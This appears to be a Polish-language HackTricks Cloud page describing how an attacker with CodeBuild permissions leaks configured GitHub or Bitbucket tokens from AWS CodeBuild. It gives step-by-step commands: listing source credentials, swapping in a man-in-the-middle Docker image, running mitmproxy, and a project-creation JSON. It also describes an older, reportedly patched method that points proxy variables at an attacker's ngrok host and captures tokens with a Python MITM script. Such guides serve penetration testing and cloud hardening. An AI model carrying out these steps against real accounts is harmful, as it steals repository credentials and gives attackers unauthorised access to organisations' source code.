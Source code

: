 # AWS Codebuild - Wyciek Tokenów

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Odzyskiwanie Skonfigurowanych Tokenów Github/Bitbucket

Najpierw sprawdź, czy skonfigurowano jakiekolwiek poświadczenia źródłowe, które mogą ulec wyciekowi:
```bash
aws codebuild list-source-credentials
```
### Poprzez obraz Docker

Jeśli odkryjesz, że uwierzytelnienie na przykład w Githubie jest ustawione w koncie, możesz **wyciec** ten **dostęp** (**token GH lub token OAuth**) sprawiając, że Codebuild będzie **używał określonego obrazu Dockera** do uruchomienia budowy projektu.

W tym celu możesz **utworzyć nowy projekt Codebuild** lub zmienić **środowisko** istniejącego, aby ustawić **obraz Dockera**.

Obraz Dockera, który możesz użyć, to [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Jest to bardzo podstawowy obraz Dockera, który ustawia **zmienne środowiskowe `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Pozwoli to przechwycić większość ruchu hosta wskazanego w **`https_proxy`** i **`http_proxy`** oraz zaufać CERT SSL wskazanemu w **`SSL_CERT_FILE`**.

1. **Utwórz i Prześlij swój własny obraz Docker MitM**
* Postępuj zgodnie z instrukcjami repozytorium, aby ustawić swój adres IP proxy i ustaw swój certyfikat SSL oraz **zbuduj obraz Dockera**.
* **NIE USTAWIAJ `http_proxy`**, aby nie przechwytywać żądań do punktu końcowego metadanych.
* Możesz użyć **`ngrok`** jak `ngrok tcp 4444` do ustawienia proxy dla twojego hosta.
* Gdy już zbudujesz obraz Dockera, **prześlij go do publicznego repozytorium** (Dockerhub, ECR...)
2. **Ustaw środowisko**
* Utwórz **nowy projekt Codebuild** lub **zmodyfikuj** środowisko istniejącego.
* Ustaw projekt, aby używał **wcześniej wygenerowanego obrazu Dockera**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ustaw proxy MitM na swoim hoście**

* Jak wskazano w **repozytorium Githuba**, możesz użyć czegoś w rodzaju:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Użyta wersja **mitmproxy to 9.0.1**, zgłoszono, że z wersją 10 to może nie działać.
{% endhint %}

4. **Uruchomienie budowy i przechwycenie poświadczeń**

*   Token można zobaczyć w nagłówku **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Można to również zrobić z wiersza poleceń aws, coś w stylu

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Przez protokół HTTP~~

{% hint style="success" %}
**Ta podatność została naprawiona przez AWS w pewnym momencie w tygodniu 20 lutego 2023 r. (Chyba w piątek). Dlatego atakujący nie może już z niej skorzystać :)**
{% endhint %}

Atakujący z **podwyższonymi uprawnieniami w CodeBuild mógłby ujawnić token Github/Bitbucket** skonfigurowany lub jeśli uprawnienia były skonfigurowane za pomocą OAuth, **tymczasowy token OAuth używany do dostępu do kodu**.

* Atakujący mógł dodać zmienne środowiskowe **http\_proxy** i **https\_proxy** do projektu CodeBuild wskazujące na swoją maszynę (na przykład `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Następnie zmień adres URL repozytorium github na użycie protokołu HTTP zamiast HTTPS, na przykład: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Następnie uruchom podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* W końcu kliknij **Build the project**, **poświadczenia** zostaną **wysłane w postaci tekstu jawnego** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Teraz atakujący będzie mógł użyć tokena ze swojego komputera, wyświetlić wszystkie przywileje, jakie ma, i (nadużywać) łatwiej niż korzystając bezpośrednio z usługi CodeBuild.
{% endhint %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
